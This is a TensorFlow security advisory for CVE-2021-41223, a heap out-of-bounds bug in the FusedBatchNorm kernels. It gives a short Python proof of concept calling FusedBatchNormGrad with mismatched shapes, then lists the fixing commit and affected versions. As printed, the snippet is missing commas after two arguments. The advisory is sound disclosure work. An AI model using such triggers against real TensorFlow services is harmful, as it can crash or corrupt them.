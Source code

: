 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-169.md
## TFSA-2021-169: Heap OOB in `FusedBatchNorm` kernels

### CVE Number
CVE-2021-41223

### Impact
The [implementation](https://github.com/tensorflow/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/fused_batch_norm_op.cc#L1292) of `FusedBatchNorm` kernels is vulnerable to a heap OOB:

```python
import tensorflow as tf

tf.raw_ops.FusedBatchNormGrad(
  y_backprop=tf.constant([i for i in range(9)],shape=(1,1,3,3),dtype=tf.float32)
  x=tf.constant([i for i in range(2)],shape=(1,1,1,2),dtype=tf.float32)
  scale=[1,1],
  reserve_space_1=[1,1],
  reserve_space_2=[1,1,1],
  epsilon=1.0,
  data_format='NCHW',
  is_training=True)
```

### Patches
We have patched the issue in GitHub commit [aab9998916c2ffbd8f0592059fad352622f89cda](https://github.com/tensorflow/tensorflow/commit/aab9998916c2ffbd8f0592059fad352622f89cda).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
